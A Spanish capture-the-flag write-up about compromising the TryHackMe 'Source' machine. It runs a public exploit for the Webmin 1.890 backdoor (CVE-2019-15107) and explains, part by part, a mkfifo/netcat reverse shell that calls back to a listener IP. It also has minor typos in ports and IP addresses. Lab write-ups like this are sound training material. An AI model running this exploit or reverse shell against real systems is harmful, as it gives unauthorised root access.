










---
title: 'Source - TryHackMe'
description: "En esta ocasión, abordaremos la máquina Source de la plataforma TryHackMe. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados."
pubDate: 'Oct 15 2024'
categories: ['WriteUp', 'TryHackMe', 'CTF']
--- 

## Introducción

**[TryHackMe](https://tryhackme.com/p/Yw4rf)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Source. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.



```
Platform: TryHackMe
OS: Linux
Level: Easy
```

## Scanning (Escaneo)

```
Target: 10.10.146.135
```

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.


Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.



- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `-vvv`: Modo muy detallado (muestra más información durante el escaneo).
- `10.10.146.135`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/tcp** y **1000/tcp**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`



## Enumeration (Enumeración)

##### 22/SSH 

La versión de **OpenSSH es 7.6p1**, y se está utilizando el protocolo 2.0. También se muestran las claves públicas **RSA**, **ECDSA** y **ED25519** utilizadas por el servidor SSH. Se podría utilizar la vulnerabilidad **CVE-2018-15473**, que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Lo que puede facilitar a ataques de fuerza bruta.

##### 10000/Webmin 

El servicio **Webmin** presenta la versión **MiniServ es 1.890**, nos indica que hay una página **http** la cual es accesible.



Al acceder a ella mediante la URL: `http://10.10.146.135:10000` nos redirige a está página que nos indica **"This web server is running in SSL mode. Try the URL `https://ip-10-10-146-135.eu-west-1.compute.internal:10000/` instead"** 


Al ingresar a la URL correspondiente nos salta **"This site can´t be reached"** esto se debe a que no tenemos el sitio en nuestro **/etc/hosts** por lo tanto debemos agregarlo



Esto lo haremos mediante `sudo nano /etc/hosts` se requieren permisos de super usuario para la escritura.


Agregamos la linea `10.10.146.145  ip-10-10-146-135.eu-west-1.compute.internal` y ahora deberiamos poder acceder



Nos encontramos con un **panel de autenticación Webmin** y como no tenemos usuario ni contraseña, buscaremos más información sobre la version 1.890 de **Webmin**


Al buscar en Google "**webmin 1.890 github**" nos salen varios exploits. En mi caso, el que más me intereso fue el de **[MiurlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)** 



## Vulnerability (Vulnerabilidad)

**[CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)**: El atacante puede enviar una solicitud http maliciosa a la página del formulario de solicitud de restablecimiento de contraseña y ejecutar comandos arbitrarios en el sistema operativo subyacente sin necesidad de autenticación. La vulnerabilidad está presente en las versiones 1.882 <<< 1.921



Usaremos el exploit de **[MiurlandOracle](https://github.com/MuirlandOracle/CVE-2019-15107)**. Convierto la URL del exploit a **Raw**


Luego de convertir la URL, lo descargo con `wget` 



Una vez instalado el exploit, ejecuto el parametro `-h` para ver los posibles comandos



Una vez entendido como funciona el exploit, lo ejecutamos. En este caso se ejecuta `python3 CVE-2019-15107.py 10.10.146.135 -p 10000` lo cual nos da control total a la máquina


Es posible escribir `shell` para obtener una **Reverse Shell**. En mi caso, utilizare está:


- `rm /tmp/f;`: Elimina cualquier archivo existente en `/tmp/f`. Esto se hace para asegurarse de que no haya un archivo con el mismo nombre que pueda interferir con la creación de la fifo (ver a continuación).
- `mkfifo /tmp/f;`: Crea una fifo (First-In-First-Out) en `/tmp/f`. Una fifo es un tipo de archivo especial que permite la comunicación entre procesos. En este caso, se utiliza para redirigir la entrada y salida estándar.
- `cat /tmp/f`: Lee el contenido de la fifo `/tmp/f` y lo envía a la salida estándar.
- `sh -i`: Ejecuta una shell interactiva (`sh`) con la entrada estándar (`-i`) conectada a la salida estándar de `cat`.
- `2>&1`: Redirige la salida de error (`2`) a la salida estándar (`1`). Esto permite que los errores se muestren en la salida estándar.
- `nc 10.21.66.133 1777`: Conecta a un servidor netcat (`nc`) en la dirección IP `10.21.66.133` y el puerto `1777`. El servidor netcat escucha la conexión y envía la salida estándar a la fifo `/tmp/f`.
- `>/tmp/f`: Redirige la salida estándar de la shell interactiva a la fifo `/tmp/f`.

Al estar en escucha con **NetCat** por el **puerto 1777** nos dará acceso la **Reverse Shell**
 


Una vez tenemos acceso verificamos que somos **root** por lo tanto no es necesario escalar privilegios. Hare **tty treatment** para no tener problemas inncesarios y que la shell sea mas comoda a la hora de utilizarla luego de la **reverse shell**.


Una vez tratada la tty verificamos si somos **root**
 


Somos **root** y tenemos control total de la máquina, por lo tanto la hemos finalizado. Restaria encontrar las **flags**.


<br>